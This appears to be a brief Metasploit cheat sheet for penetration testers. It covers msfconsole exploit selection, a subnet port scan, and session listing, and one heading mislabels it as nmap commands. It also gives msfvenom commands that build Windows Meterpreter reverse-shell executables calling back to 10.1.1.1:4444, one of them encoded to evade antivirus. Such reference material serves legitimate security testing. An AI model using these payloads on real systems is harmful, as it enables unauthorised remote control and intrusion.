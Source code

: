 # Metasploit 

Metasploit is a popular tool used by pentest expert.

Link: https://github.com/security-cheatsheet/metasploit-cheat-sheet

## Common Usage of nmap commands I used


```
msfconsole
```

### Part 1 

```
msf > search [regex]
msf > use exploit/[ExploitPath]
msf > set PAYLOAD [PayloadPath]
msf > show options
msf > set [Option] [Value]
msf > exploit 
```

### Part 2 

```
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
```

### Part 3 

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode them. This tool replaces the former msfpayload and msfencode tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=10.1.1.1 LPORT=4444 > met.exe
```

```
$ msfvenom -p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```

### Part 4 

```
msf > jobs –l
msf > sessions -l

```




